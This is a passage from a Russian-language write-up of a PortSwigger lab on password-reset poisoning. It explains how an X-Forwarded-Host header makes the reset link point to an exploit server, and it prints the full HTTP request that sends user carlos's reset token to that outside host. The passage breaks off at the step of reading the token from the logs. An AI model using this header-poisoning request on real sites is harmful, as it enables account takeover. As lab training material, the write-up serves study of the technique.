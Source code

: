 Зачем это нужно. Заголовок `X-Forwarded-Host` указывает, что оригинальный запрос был отправлен не от `Host`, а от хоста, который указан в этом заголовке. Для этой лабы мы получили письмо на восстановление пароля, который указывает на эксплойт сервер. Теперь, если нажать на эту ссылку, то на сервер прийдет `GET`-запрос с токеном для сброса пароля. А его можно уже использовать, чтобы сбросить пароль.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Password_reset_poisoning_via_middleware/3.png){: height="200" .align-center}

Итак, что нужно сделать:
1. Отправить заявку на сброс пароля для пользователя `carlos` с заголовком `X-Forwarded-Host`:

```http
POST /forgot-password HTTP/2
Host: 0ad6006c036f335d80bd12c1003500dd.web-security-academy.net
Cookie: session=9AUyI5SFoyAibYfN1uEZ33qBzWoBMd4Q
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad6006c036f335d80bd12c1003500dd.web-security-academy.net/forgot-password
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0ad6006c036f335d80bd12c1003500dd.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
X-Forwarded-Host: exploit-0a06006703a2337280a5112f01d700f6.exploit-server.net

username=carlos
```
2. Вытащить токен из логов сервера:
